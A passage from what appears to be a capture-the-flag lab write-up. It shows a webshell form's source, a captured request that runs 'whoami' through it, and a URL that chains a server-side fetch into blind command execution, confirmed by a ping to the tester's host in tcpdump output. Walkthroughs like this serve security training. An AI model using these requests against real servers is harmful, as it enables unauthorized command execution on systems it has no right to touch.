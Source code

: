 Looking for closely at the previous page source, it’s super simple:

    
    
    <html>
    <body>
    
    <form action="cmd.aspx" method=POST>
    <p>Enter your shell command: <input type=text name=xcmd size=40> </form> </body> </html>
    

The `action` is a POST to `cmd.aspx`, and since the full path isn’t given,
that targets `http://10.10.10.57:62696/cmd.aspx`, which doesn’t exist. It’s
also sending a parameter named `xcmd`. I can see this in my failed request in
Burp as well:

    
    
    POST /cmd.aspx HTTP/1.1
    Host: 10.10.10.57:62696
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:98.0) Gecko/20100101 Firefox/98.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://10.10.10.57:62696/
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 11
    Connection: close
    Cookie: ASPSESSIONIDACQBQRTB=GEFBPLMBLIENILKPDIEMHAFA; ASPSESSIONIDCCSDSSRA=LKPPKPACGFAOPJNAIOFNFBOD; ASPSESSIONIDAASCSSQA=FECBOJBCDDJHILMFPBADGLND
    Upgrade-Insecure-Requests: 1
    
    xcmd=whoami
    

I can hope that this webshell accepts GET requests as well as post requests
and put the parameter in the URL, and it works, kind of:

![image-20220405113553751](https://0xdfimages.gitlab.io/img/image-20220405113553751.png)

If I change `whoami` to something that doesn’t exist as a command like `0xdf`,
it returns “Exit Status=1”. This fits, as a successful command typically
returns 0, and otherwise shows an error. So I have probably code execution,
but it’s blind.

### Connect Back Enumeration

When I think have blind execution, the first thing to verify it’s actually
executing is to `ping` my host and watch for it on `tcpdump`. I’ll start it,
and visit
`http://10.10.10.57:62696/test.asp?u=http://127.0.0.1:80/cmd.aspx?xcmd=ping%20-n%201%2010.10.14.6`.
`tcpdump` sees the ICMP packet:

    
    
    oxdf@hacky$ sudo tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    21:28:11.313557 IP 10.10.10.57 > 10.10.14.6: ICMP echo request, id 1, seq 268, length 40
    21:28:11.313630 IP 10.10.14.6 > 10.10.10.57: ICMP echo reply, id 1, seq 268, length 40
    